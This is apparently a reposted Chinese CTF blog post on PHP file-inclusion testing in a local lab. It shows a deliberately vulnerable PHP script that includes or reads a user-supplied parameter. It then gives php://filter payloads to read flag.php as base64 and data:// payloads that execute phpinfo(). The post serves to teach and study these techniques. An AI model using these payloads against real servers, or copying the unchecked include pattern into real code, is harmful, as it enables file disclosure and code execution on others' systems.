 ## 本地环境测试

在阿清出的一道反序列化的题目中，使用伪协议发现了问题，发现打不通，然后本地测试了一下

```php
<?php

 highlight_file(__FILE__);
 $ceshi=$_GET['ceshi'];
 include($ceshi);
?>
```

配合伪协议`php://filter`，payload为：`http://127.0.0.1/hello.php?ceshi=php://filter/read=convert.base64-encode/resource=flag.php` 可以读到base64编码后的flag

如果换成 `$_post['ceshi']` 呢，答案是一样的。

改一下源代码：

```php
 <?php
 highlight_file(__FILE__);
 $ceshi=$_GET['ceshi'];
 echo file_get_contents($ceshi);
 ?> 
```

同样我们配合 `php://filter` 伪协议，payload为：`http://127.0.0.1/hello.php?ceshi=php://filter/read=convert.base64-encode/resource=flag.php` 可以读到base64编码后的flag，换成POST传参形式亦然。

然后我们再来尝试一下data协议 (这里测试的时候注意更改一下 php.ini 的配置，默认allow_url_include 是 off)

```php
<?php
 highlight_file(__FILE__);
 $ceshi=$_GET['ceshi'];
 include($ceshi);
?>
```

利用data:// 伪协议配合include函数可以执行包含文本内容：

`ceshi=data:text/plain,helloworld`

![BHKG_M9_ZR_8W4K@6PVUS`I.png](https://i.loli.net/2020/11/30/gNRqxLoirwlHF5p.png)

同样，我们利用data://伪协议配合include函数可以执行PHP语句:

`ceshi=data:text/plain,<?php phpinfo();?>`

![_V8KVS~VX___1`I_2_7V28P.png](https://i.loli.net/2020/11/30/kjOEGUcSZxa3iDm.png)

如上图，这里本质上是使用data协议 包含了文本内容，文本内容为 `<?php phpinfo();?>` 然后被解析成PHP语句执行并返回结果。

我们尝试一下`file_get_contents()`函数是不是也支持呢？测试一下：

![J_C4AEA2CN4TNWJ040_O__P.png](https://i.loli.net/2020/11/30/O7R9PwE8FodH3Da.png)


[转自Myon9s大佬的博客]: http://myangswhitehat.cn/	"http://myangswhitehat.cn/"